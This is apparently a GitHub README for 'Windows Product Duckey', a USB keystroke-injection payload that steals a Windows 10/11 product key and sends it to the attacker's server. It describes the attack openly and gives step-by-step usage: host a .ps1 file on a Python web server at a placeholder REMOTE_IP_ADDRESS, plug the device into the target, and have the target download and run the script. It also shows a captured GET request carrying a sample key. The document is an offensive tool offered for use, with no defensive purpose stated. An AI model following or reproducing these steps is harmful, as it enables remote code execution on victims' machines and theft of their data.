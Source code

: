 <h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Windows+Product+Duckey+🦆🔑&center=true&size=25">
  </a>
</h1>

## Description

This payload exfiltrate the target's Windows product key to a remote server. *Only works on Windows 10,11.*

## Demo

<h2 align="center">
  <img src="https://raw.githubusercontent.com/Who-Is-Julien/Windows-Product-Duckey/main/demo.gif">
</h2>

Here we can see that the attacker's server received the following request:
```
GET /?result=A1B2C-3D4E5-F6G7H-819J0-A1B2C HTTP/1.1
```
*Which contains the target's Windows product key!*

## Usage

To use this script, follow these steps:

1. Set up a website on your server or a computer in the same network as the target's computer. You can use Python to do this by running the following command:
```
python -m http.server 80
```
2. Download the payload.txt and .ps1 files and modify them to include the IP address of your server.
3. Move the modified .ps1 file to the root directory of your website, so it is downloadable from this address:
```
http://REMOTE_IP_ADDRESS/.ps1
```
4. Plug in your device that is configured with the modified payload.txt to the target's computer.
5. Wait for the target to download and execute the .ps1 file from your website. You can track the target's IP address and Windows product key by checking your website logs.



***Note**: This script is designed to send the results to a specific server, so you don't have to rely on any file sharing services. Additionally, you can easily adapt it to work with encrypted sites.*
